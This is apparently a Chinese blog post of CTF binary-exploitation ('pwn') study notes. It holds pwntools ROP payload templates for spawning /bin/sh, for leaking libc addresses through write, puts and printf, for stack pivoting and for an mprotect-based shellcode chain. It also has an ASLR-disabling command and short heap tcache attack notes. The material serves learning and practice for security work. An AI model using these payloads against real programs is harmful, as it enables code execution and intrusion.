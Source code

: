 ```yaml
---
title: PWN刷题小结
date: 2021-08-08
tags: PWN
categories: Technology

---
```


[toc]

# 1.杂

Ubuntu 18下偶尔会发生栈无法对齐的情况，多retn几次就好了。

`strlen()`函数来判断输入的长度，遇到`'\x00'`时会终止，而`gets()`函数遇到`'\x00'`并不会截断

## sys,write,puts,printf

system("/binsh")

```python
p32(e.plt['system']) + p32(0xdeadbeef) + p32(sh_addr)
p64(pop_rdi_ret) +  p64(sh_addr) + p64(e.sym['system'])
p64(pop_rdi_ret) + p64(bin_sh) + p64(sys_plt) + p64(0xdeadbeef)
```

write:输出，read（为0，输入）


```python
p32(write_plt) + p32(0x8048474) + p32(1) + p32(read_got) + p32(4)
p32(write_plt) + p32(main_addr) + p32(1) + p32(read_got)
p32(write_plt) + p32(main_addr) + p32(1) + p32(write_got)
p32(write_plt) + p32(main_addr) + p32(1) + p32(read_got) + p32(4)
```

puts  

```python
p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(e.sym['vuln'])
p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main)
```

printf:

```python
p32(printf_plt) + p32(main_addr) + p32(fmtstr_addr) + p32(printf_got)
p32(printf_plt) + p32(vuln_addr) + p32(fmt_addr) + p32(printf_got)
```

## 传参

32传参：

-   传参方式：首先将系统调用号 传入 eax，然后将参数 从左到右 依次存入 ebx，ecx，edx寄存器中，返回值存在eax寄存器
-   调用号：`sys_read` 的调用号 为 3，`sys_write`的调用号 为 4
-   调用方式: 使用 `int 80h`中断进行系统调用

64位传参：

-   传参方式：首先将系统调用号 传入 rax，然后将参数 从左到右 依次存入 `rdi, rsi, rdx, rcx, r8, r9`寄存器中，返回值存在rax寄存器
-   调用号：`sys_read` 的调用号 为 0 ，`sys_write` 的调用号 为 1，
-   stub_execve 的调用号 为 59 stub_rt_sigreturn 的调用号 为 15
-   调用方式: 使用 syscall 进行系统调用

## 关闭aslr

**echo 0 > /proc/sys/kernel/randomize_va_space**



```c
gwt@ubuntu:~$ cyclic 50
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
gwt@ubuntu:~$ cyclic -l 0x61616166
20
```

## 关于recv地址

```
如果直接返回地址：%p这种：
stack_addr = int(io.recvuntil('\n',drop=True),16)

如果是这种：
[DEBUG] Received 0x2c bytes:
    00000000  42 79 65 62  79 65 7e 0a  a0 8a 14 5c  7e 7f 0a 57  │Byeb│ye~·│···\│~··W│
    00000010  65 6c 63 6f  6d 65 20 74  6f 20 41 43  54 46 27 73  │elco│me t│o AC│TF's│
    00000020  20 62 61 62  79 73 74 61  63 6b 21 0a               │ bab│ysta│ck!·│
那么
puts_addr = io.recvuntil('\x7f')[-6:]
puts_addr = puts_addr.ljust(8,'\x00')
print hex(u64(puts_addr))
```



# 1.Stack



## 1.栈迁移

payload：

```python
payload = p32(sys_addr) + 'aaaa' + p32(buf_add+12) + b"/bin/sh\x00"
payload += (0x28 - len(payload))* b'a' + p32(buf_add-4) + p32(leave)
or
payload = 'aaaa'+ p32(sys_addr) + 'aaaa' + p32(buf_add+16) + b"/bin/sh\x00"
payload += (0x28 - len(payload))* b'a' + p32(buf_add) + p32(leave)
```

​	![img](pwn小总结/906508_BQAUCW64WPUTJ8N.png)



## 2.mprotect

mprotect函数，可以修改内存段的权限

```
int mprotect(void *addr, size_t len, int prot);
addr 内存启始地址
len  修改内存的长度
prot 内存的权限
```



```python
栈溢出到mprotect函数（call==push+jmp）
所以ret后要留一个返回地址，因为ret就相当于jmp到mprotect。
payload大致为：

payload = 'a'*0x38+p32(mprotect_add)+p32(ret_add)
payload+=p32(argu1) + p32(argu2) +p32 (argu3)
第一个参数是被修改内存的地址：0x80ea000
第二个参数是被修改内存的大小：必须是页的整数倍，0x1000
第三参数值权限：0x7
然后找个pop来平衡堆栈：
ROPgadget --binary get_started_3dsctf_2016 --only 'pop|ret'
因为是3个参数，就找3个pop
现在payload：
payload = 'a' + 0x38 + p32(mprotect_addr)
payload += p32(pop3_addr) + p32(mem_addr) + p32(mem_size) + p32 (mem_proc) + p32(ret_addr2)

ret_addr2是read函数的地址，将shellcode写入内存。
read函数原型：
ssize_t read(int fd, void *buf, size_t count);
fd 设为0时就可以从输入端读取内容
buf 设为我们想要执行的内存地址    
size 适当大小，足够写入shellcode就OK


mprotect_addr = elf.symbols['mprotect']
read_addr = elf.symbols['read']


payload  = 'A' * 0x38
payload += p32(mprotect_addr)
payload += p32(pop3_ret) 
payload += p32(mem_addr) 
payload += p32(mem_size)  
payload += p32(mem_proc)   
payload += p32(read_addr)
payload += p32(pop3_ret)  
payload += p32(0)     
payload += p32(mem_addr)   
payload += p32(0x1000) 
payload += p32(mem_addr) 
```





# 3.Heap

## 1.Tchache

每条链最多7个，满了后放入fastbin与unsortedbin。

malloc时优先去tcache中找。

tcache最大为0x400，大于就会放入unsortedbin。

**一些利用姿势**

### tcache dup

double free

### house_of_spirit

free掉伪造的chunk，这里不会对size前后的chunk进行检查

### overlapping

修改需要被free的size位，（包含其他chunk

### perthread_corruption

控制tcache的管理结构。























